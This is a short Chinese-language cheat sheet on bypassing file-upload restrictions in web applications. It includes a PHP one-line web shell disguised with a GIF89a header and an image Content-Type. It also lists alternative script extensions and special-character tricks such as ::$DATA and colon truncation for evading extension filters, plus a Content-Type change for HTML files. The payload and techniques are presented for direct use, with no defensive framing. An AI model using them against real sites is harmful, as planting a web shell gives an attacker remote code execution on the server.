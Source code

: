 ## 文件内容检测绕过
```
文件头：Content-Type: image/jpeg
文件内容：
 GIF89a?
 <?php
 Eval($_POST["pass"]);
(有可能会检测文件内容，例如不允许有危险函数eval)
```
## 文件后缀检测绕过
- 后缀大小写：```
PHP文件: Php、PHP、pht、php5、phtml、shtml
JSP文件: jspx、jspf
ASP文件: asa、cer、cdx
ASPX文件: ascx、ashx、asac```
- 后缀添加特殊字符：`:、空格、::$DATA、.,$,/.,=等字符`  
`:` 只针对windows系统，会将后面的截断
## 文件不解析
上传html文件不解析，修改`Content-Type: text/html`来设置文件格式